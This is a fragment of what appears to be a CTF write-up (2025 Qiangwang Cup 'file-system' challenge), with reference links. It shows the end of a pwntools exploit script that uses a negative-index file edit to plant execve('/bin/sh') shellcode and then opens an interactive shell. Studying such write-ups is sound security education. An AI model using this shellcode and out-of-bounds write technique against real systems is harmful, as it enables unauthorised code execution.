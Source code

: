 ```python
    shellcode_addr = 0x20250000
    shellcode = b'H\xbb/bin/sh\x00ST_1\xf6j;X\x99\x0f\x05'
    edit_file(-5, flat(shellcode.ljust(0x18, b'\0'), shellcode_addr, 0, shellcode_addr))

    t.clean()
    t.interactive()
    t.close()
```

## 参考

1. [2025强网杯-file-system - irontys](https://blog.csdn.net/weixin_52111404/article/details/153685837)
2. [bph](bph.md)

